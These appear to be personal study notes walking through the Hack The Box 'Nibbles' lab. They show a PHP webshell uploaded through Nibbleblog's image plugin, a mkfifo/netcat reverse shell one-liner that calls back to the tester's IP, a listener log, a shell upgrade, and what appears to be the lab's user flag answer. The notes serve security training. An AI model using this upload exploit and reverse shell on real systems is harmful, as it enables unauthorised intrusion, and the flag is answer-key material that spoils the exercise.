 - Now that we are logged in to the admin portal, we need to attempt to turn this access into code execution and ultimately gain reverse shell access to the webserver. 
- We know a `Metasploit` module will likely work for this, but let us enumerate the admin portal for other avenues of attack. Looking around a bit, we see the following pages:
![[Screenshot_20241107_131847.png]]
- Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.
- Let us attempt to use this plugin to upload a snippet of `PHP` code instead of an image. The following snippet can be used to test for code execution.
```php
<?php system('id'); ?>
```
- Save this code to a file and then click on the `Browse` button and upload it.
- We get a bunch of errors, but it seems like the file may have uploaded.
```shell-session
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```
- Now we have to find out where the file uploaded if it was successful. Going back to the directory brute-forcing results, we remember the `/content` directory. Under this, there is a `plugins` directory and another subdirectory for `my_image`. 
- The full path is at `http://<host>/nibbleblog/content/private/plugins/my_image/`.
- In this directory, we see two files, `db.xml` and `image.php`, with a recent last modified date, meaning that our upload was successful! Let us check and see if we have command execution.
```shell-session
secmancer@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
- We do! It looks like we have gained remote code execution on the web server, and the Apache server is running in the `nibbler` user context. Let us modify our PHP file to obtain a reverse shell and start poking around the server.
- Let us edit our local PHP file and upload it again. This command should get us a reverse shell. As mentioned earlier in the Module, there are many reverse shell cheat sheets out there. Some great ones are [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).
- Let us use the following `Bash` reverse shell one-liner and add it to our `PHP` script.
```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```
- We will add our `tun0` VPN IP address in the `<ATTACKING IP>` placeholder and a port of our choice for `<LISTENING PORT>` to catch the reverse shell on our `netcat` listener. See the edited `PHP` script below.
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```
- We upload the file again and start a `netcat` listener in our terminal:
```shell-session
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
```
- `cURL` the image page again or browse to it in `Firefox` at http://nibbleblog/content/private/plugins/my_image/image.php to execute the reverse shell.
```shell-session
secmancer@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
- Furthermore, we have a reverse shell. 
- Before we move forward with additional enumeration, let us upgrade our shell to a "nicer" shell since the shell that we caught is not a fully interactive TTY and specific commands such as `su` will not work, we cannot use text editors, tab-completion does not work, etc. 
- This [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) explains the issue further as well as a variety of ways to upgrade to a fully interactive TTY. For our purposes, we will use a `Python` one-liner to spawn a pseudo-terminal so commands such as `su` and `sudo` work as discussed previously in this Module.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- Try the various techniques for upgrading to a full TTY and pick one that works best for you. Our first attempt fails as `Python2` seems to be missing from the system!
```shell-session
$ python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
```
- We have `Python3` though, which works to get us to a friendlier shell by typing `python3 -c 'import pty; pty.spawn("/bin/bash")'`. 
- Browsing to `/home/nibbler`, we find the `user.txt` flag as well as a zip file `personal.zip`.
```shell-session
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
```


### Questions
- Gain a foothold on the target and submit the user.txt flag
	- 79c03865431abf47b90ef24b9695e148
